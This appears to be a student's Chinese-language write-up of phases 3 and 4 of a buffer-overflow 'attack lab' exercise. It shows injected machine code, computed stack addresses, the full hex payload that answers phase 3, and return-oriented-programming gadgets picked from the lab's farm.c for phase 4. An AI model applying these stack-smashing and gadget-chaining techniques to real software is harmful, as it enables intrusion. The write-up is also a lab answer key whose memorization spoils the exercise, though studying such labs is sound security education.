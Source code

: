 ### phase3

cookie(去掉前缀0x)当字符串转ASCLL码``32 31 65 35 32 64 38 30``


注入代码：
```txt
inject_code2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	5f                   	pop    %rdi
   1:	c3                   	retq   
```

栈顶地址不变还是(注入代码地址)：0x5565d3a8
通过计算偏移量得到注入的cookie字符串地址为:0x5565d3d8
**答案：**
```txt
5f c3 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a8 d3 65 55 00 00 00 00
d8 d3 65 55 00 00 00 00
10 19 40 00 00 00 00 00
32 31 65 35 32 64 38 30
```

### phase4 
注入代码(每行在后面加个ret (c3)):
```c
inject_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	58                   	pop    %rax
   1:	89 c7                	mov    %eax,%edi
```

在farm.c的反汇编代码里里面找得到：

4019bd:58 c3  pop    %rax  ret:
```c
00000000004019ba <addval_399>:
  4019ba:	8d 87 f6 58 90 90    	lea    -0x6f6fa70a(%rdi),%eax
  4019c0:	c3                   	retq   
```
4019dc:48	89 c7 90 c3               	mov    %rax,%rdi ret
```c
00000000004019da <setval_442>:
  4019da:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
  4019e0:	c3     
```

